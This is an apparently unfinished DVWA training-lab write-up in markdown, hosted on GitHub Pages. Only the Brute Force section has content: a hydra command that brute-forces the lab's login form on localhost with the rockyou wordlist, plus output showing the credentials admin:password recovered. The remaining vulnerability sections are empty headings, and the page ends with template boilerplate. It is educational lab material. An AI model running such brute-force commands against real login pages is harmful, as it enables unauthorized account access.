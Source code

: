 ## DVWA Writeups



- [Brute Force](#brute-force)

- [Command Injection](#command-injection)

- [Cross Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)

- [File Inclusion](#file-inclusion)

- [File Upload](#file-upload)

- [SQL Injection](#sql-injection)

- [SQL Injection (Blind)](#sql-injection-blind)

- [Weak Session IDs](#weak-session-ids)

- [DOM Based Cross Site Scripting (XSS)](#dom-based-cross-site-scripting-xss)

- [Reflected Cross Site Scripting (XSS)](#reflected-cross-site-scripting-xss)

- [Stored Cross Site Scripting (XSS)](#stored-cross-site-scripting-xss)

- [Content Security Policy (CSP) Bypass](#content-security-policy-csp-bypass)

- [JavaScript Attacks](#javascript-attacks)


---


### Brute Force


The goal is to brute force an HTTP login page.

**Security level is currently: low.**

On submitting the username and password we see that it is using get request 

<img width="477" alt="image" src="https://user-images.githubusercontent.com/79740895/185153021-af373095-102b-4d68-88c7-573499351bc5.png">

So let’s use hydra for brute force:

``` 
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346"
```

Here we are using cookies because if we are not authenticated when we make the login attempts, we will be redirected to default login page

<details><summary>Click to see output</summary>

```ShellSession
  
┌─[aftab@parrot]─[~/Downloads/dvwa]
└──╼ $hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346"
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-17 23:50:56
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://127.0.0.1:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346
[80][http-get-form] host: 127.0.0.1   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-17 23:51:59

```

</details>

Login credentials found by hydra:
`admin:password`

---

### Command Injection

---
### Cross Site Request Forgery (CSRF)

---
### File Inclusion

---
### File Upload

---
### SQL Injection

---
### SQL Injection (Blind)

---
### Weak Session IDs

---
### DOM Based Cross Site Scripting (XSS)

---
### Reflected Cross Site Scripting (XSS)

---
### Stored Cross Site Scripting (XSS)

---
### Content Security Policy (CSP) Bypass

---
### JavaScript Attacks


---

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [Basic writing and formatting syntax](https://docs.github.com/en/github/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/Aftab700/DVWA-Writeup/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.

